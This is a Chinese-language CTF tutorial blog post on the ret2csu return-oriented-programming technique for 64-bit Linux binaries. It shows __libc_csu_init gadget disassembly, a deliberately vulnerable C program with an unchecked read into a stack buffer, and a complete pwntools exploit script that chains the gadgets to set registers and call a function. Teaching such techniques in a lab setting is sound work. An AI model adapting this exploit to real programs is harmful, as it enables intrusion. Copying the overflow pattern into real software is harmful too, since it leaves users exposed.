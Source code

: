 ```yaml
---
title: 「PWN」最基础的 ret2csu
tags: ['CTF', 'Pwn', ]
authors: [nova]
---
```

# RET2CSU

## 0x01 为什么需要ret2csu？

在64bits的ELF文件中，函数调用的前六个参数是分别存放在*rdi、rsi、rdx、rcx、r8、r9*这六个寄存器当中的，而我们在实际构建ROP时很难找到对应的gadgets（大部分情况下是找不到rdx），而ret2csu的关键点就在于使用`__libc_csu_init()`来获取两个gadgets来进行万能传参（同时泄露出函数真实地址）


<!--truncate-->
## 0x02 __libc_csu_init()

`__libc_csu_init()`是用来对libc进行初始化操作的函数，而绝大部分软件都会调用到libc，因此我们可以认为`__libc_csu_init()`基本算程序通用的函数之一

。这里，我们随便打开一个64bitELF文件查看一下它。

```assembly
.text:0000000000401250 loc_401250:                             ; CODE XREF: __libc_csu_init+54↓j
.text:0000000000401250                 mov     rdx, r14
.text:0000000000401253                 mov     rsi, r13
.text:0000000000401256                 mov     edi, r12d
.text:0000000000401259                 call    ds:(__frame_dummy_init_array_entry - 403E10h)[r15+rbx*8]
.text:000000000040125D                 add     rbx, 1
.text:0000000000401261                 cmp     rbp, rbx
.text:0000000000401264                 jnz     short loc_401250
.text:0000000000401266
.text:0000000000401266 loc_401266:                             ; CODE XREF: __libc_csu_init+35↑j
.text:0000000000401266                 add     rsp, 8
.text:000000000040126A                 pop     rbx
.text:000000000040126B                 pop     rbp
.text:000000000040126C                 pop     r12
.text:000000000040126E                 pop     r13
.text:0000000000401270                 pop     r14
.text:0000000000401272                 pop     r15
.text:0000000000401274                 retn

```

从这里我们可以看出，我们可以让`r15+rbx*8`为我们所要执行函数的指针，`edi、rsi、rdx`可以分别作为函数的参数

在通常情况下，我们一般让`rbx=0，rbp=1`，这样可以赋值`r15`为指向函数的指针，如此一来便大大化简了我们使用gadgets的难度。



## 0x03 实战

在这里，我只准备对ret2csu的原理进行探究（因为还有半个小时就要打HGAME辣），所以我写了一个简单的程序，它会直接泄露出函数实际地址

source:

```c
#include<stdio.h>
#include<unistd.h>

int vul(int a,int b,int c){
    if(c == 233)
        printf("Big Hacker!\n");
    return 0;
}

int main(){
    char buf[30];
    int (*ptr)(int a,int b,int c) = vul;
    printf("gift: %p\n", &ptr);
    read(0,buf,0x100);
    return 0;
}

```

编译:

```bash
gcc -m64 -fno-stack-protector -no-pie ret2csu_64bits.c -o ret2csu_64bits
```



很简单，我们只需要利用`__libc_csu_init()`将rdx赋值为233就好了

而我们使用ROPgadgets可以发现是没有一个gadgets能让我们这样做的

![ROPgadgets](https://cdn.ova.moe/img/image-20220120193316710.png)

这时候我们就需要进行ret2csu了

```python
def csu(gadget1, gadget2, rbx, rbp, r12, r13, r14, r15, return_addr) -> bytes:
    """
    :param gadget1: call
    :param gadget2: pop
    :param rbx: better be 0
    :param rbp: better be 1
    :param r12: edi
    :param r13: rsi
    :param r14: rdx
    :param r15: function ptr
    :param return_addr: return addr
    :return: payload
    """
    payload = b''
    payload += p64(gadget2)
    payload += p64(0)
    payload += p64(rbx)
    payload += p64(rbp)
    payload += p64(r12)
    payload += p64(r13)
    payload += p64(r14)
    payload += p64(r15)
    payload += p64(gadget1)
    # Panding Trash
    payload += b'A'*0x38
    payload += p64(return_addr)
    return payload
```



值得注意的是，执行完gadget1之后，程序顺序执行会再次执行gadget2，因此，我们需要再填充一次`(7*0x8)`的垃圾数据防止出现错误

完整payload：

```python
from pwn import *

context.log_level = 'DEBUG'
context.arch = 'amd64'
context.os = 'linux'

sh = process('./ret2csu_64bits')
elf = ELF('./ret2csu_64bits')

sh.recvuntil(b"gift: ")
vul_addr = int(sh.recvline(), 16)
csu_gadget1_addr = 0x401250
csu_gadget2_addr = 0x401266


def csu(gadget1, gadget2, rbx, rbp, r12, r13, r14, r15, return_addr) -> bytes:
    """
    :param gadget1: call
    :param gadget2: pop
    :param rbx: better be 0
    :param rbp: better be 1
    :param r12: edi
    :param r13: rsi
    :param r14: rdx
    :param r15: function ptr
    :param return_addr: return addr
    :return: payload
    """
    payload = b''
    payload += p64(gadget2)
    payload += p64(0)
    payload += p64(rbx)
    payload += p64(rbp)
    payload += p64(r12)
    payload += p64(r13)
    payload += p64(r14)
    payload += p64(r15)
    payload += p64(gadget1)
    # Panding Trash
    payload += b'A'*0x38
    payload += p64(return_addr)
    return payload

gdb.attach(sh)
payload = b'A'*(0x20+0x08) + csu(csu_gadget1_addr, csu_gadget2_addr, 0, 1, 0, 0, 233, vul_addr, elf.sym['main'])
sh.sendline(payload)
sh.interactive()

```



